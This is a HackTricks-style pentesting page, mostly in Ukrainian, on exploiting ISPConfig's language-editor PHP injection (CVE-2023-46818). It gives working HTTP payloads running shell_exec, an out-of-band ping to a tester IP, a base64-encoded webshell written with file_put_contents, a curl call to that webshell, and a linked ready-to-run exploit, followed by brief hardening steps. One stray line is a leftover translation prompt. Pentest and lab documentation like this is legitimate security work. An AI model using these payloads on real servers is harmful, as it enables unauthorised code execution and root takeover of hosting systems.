 # ISPConfig

{{#include ../../banners/hacktricks-training.md}}

## Overview

ISPConfig — це панель управління хостингом з відкритим кодом. Старіші збірки 3.2.x включали функцію редактора мовних файлів, яка при увімкненні для суперадміністратора дозволяла впровадження довільного PHP-коду через неправильно сформований запис перекладу. Це може призвести до RCE в контексті веб-сервера і, залежно від того, як виконується PHP, до підвищення привілеїв.

Key default paths:
- Web root often at `/var/www/ispconfig` when served with `php -S` or via Apache/nginx.
- Admin UI reachable on the HTTP(S) vhost (sometimes bound to localhost only; use SSH port-forward if needed).

Tip: If the panel is bound locally (e.g. `127.0.0.1:8080`), forward it:
```bash
ssh -L 9001:127.0.0.1:8080 user@target
# then browse http://127.0.0.1:9001
```
## Редактор мов — ін'єкція PHP коду (CVE-2023-46818)

- Постраждалі: ISPConfig до 3.2.11 (виправлено в 3.2.11p1)
- Preconditions:
- Login as the built-in superadmin account `admin` (other roles are not affected according to the vendor)
- Редактор мов має бути увімкнений: `admin_allow_langedit=yes` в `/usr/local/ispconfig/security/security_settings.ini`
- Impact: Authenticated admin can inject arbitrary PHP that is written into a language file and executed by the application, achieving RCE in the web context

References: NVD entry CVE-2023-46818 and vendor advisory link in the References section below.

### Ручний сценарій експлуатації

1) Open/create a language file to obtain CSRF tokens

Надішліть перший POST, щоб ініціалізувати форму та розпарсити поля CSRF з HTML-відповіді (`csrf_id`, `csrf_key`). Приклад шляху запиту: `/admin/language_edit.php`.

2) Inject PHP via records[] and save

Надішліть другий POST, що містить поля CSRF та шкідливий запис перекладу. Minimal command-execution probes:
```http
POST /admin/language_edit.php HTTP/1.1
Host: 127.0.0.1:9001
Content-Type: application/x-www-form-urlencoded
Cookie: ispconfig_auth=...

lang=en&module=admin&file=messages&csrf_id=<id>&csrf_key=<key>&records[]=<?php echo shell_exec('id'); ?>
```
Out-of-band тест (спостереження ICMP):
```http
records[]=<?php echo shell_exec('ping -c 1 10.10.14.6'); ?>
```
3) Записати файли й розмістити webshell

Використайте `file_put_contents`, щоб створити файл у шляху, доступному через веб (наприклад, `admin/`):
```http
records[]=<?php file_put_contents('admin/pwn.txt','owned'); ?>
```
Потім напишіть простий webshell, використовуючи base64, щоб уникнути небажаних символів у тілі POST:
```http
records[]=<?php file_put_contents('admin/shell.php', base64_decode('PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pIDsgPz4K')); ?>
```
Будь ласка, вставте вміст файлу src/network-services-pentesting/pentesting-web/ispconfig.md, який потрібно перекласти.
```bash
curl 'http://127.0.0.1:9001/admin/shell.php?cmd=id'
```
Якщо PHP виконується від імені root (наприклад, через `php -S 127.0.0.1:8080`, запущений від root), це призводить до негайного root RCE. В іншому випадку ви отримуєте виконання коду від імені користувача веб-сервера.

### Python PoC

Готовий до використання exploit автоматизує обробку token та доставку payload:
- https://github.com/bipbopbup/CVE-2023-46818-python-exploit

Приклад запуску:
```bash
python3 cve-2023-46818.py http://127.0.0.1:9001 admin <password>
```
### Посилення безпеки

- Оновіть до 3.2.11p1 або новішої версії
- Вимкніть редактор мови, якщо це не є вкрай необхідним:
```
admin_allow_langedit=no
```
- Не запускайте панель під root; налаштуйте PHP-FPM або веб-сервер так, щоб скидати привілеї
- Забезпечте надійну автентифікацію для вбудованого облікового запису `admin`

## Посилання

- [ISPConfig 3.2.11p1 Released (fixes language editor code injection)](https://www.ispconfig.org/blog/ispconfig-3-2-11p1-released/)
- [CVE-2023-46818 – NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- [bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)
- [HTB Nocturnal: Root via ISPConfig language editor RCE](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)

{{#include ../../banners/hacktricks-training.md}}
